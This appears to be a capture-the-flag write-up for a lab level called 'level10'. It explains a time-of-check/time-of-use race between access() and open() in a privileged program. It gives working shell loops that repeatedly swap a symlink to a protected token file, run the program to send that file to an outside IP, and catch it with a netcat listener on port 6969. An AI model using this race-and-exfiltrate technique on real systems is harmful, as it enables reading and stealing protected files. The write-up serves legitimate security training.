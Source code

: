 # Research 

If we do `strings level10` we can see that the progam seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with level10 program on a host and read it once level10 wrote token.

How do we do that?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html


So we can start to execute level10 with token on our IP address: `./level10 token 10.12.0.0` but it does not work as we don't have access to token. </br>
Let's do a symlink on token: `ln -s /home/user/level10/token /tmp/final` and try `./level10 /tmp/final 10.12.0.0` -> It does not work as we don't have access to /tmp/final.</br>

`strings level10` shows that level10 does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

So we can do the symlink again and again, hoping that level10 will accept our file with access, then the symlink will occure, then level10 will open our modified file. 

# Solution

Level10 seems to be able to sends any file we create so let's do on a first terminal connected with ssh: `while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done` to create the file that is going to be the symlink. (`readlink -f token` to know the true path of token file). We need to suppress and create a new file each time or the symlink will apply on tmp/final and will not pass the access() check again.

On a second ssh terminal let's do: `while true; do (./level10 /tmp/final 10.11.200.134); done` to execute level10 in a loop.

On a third terminal, we can listen to the port 6969 with the netcat command: `while true; do nc -l 6969 ;done`
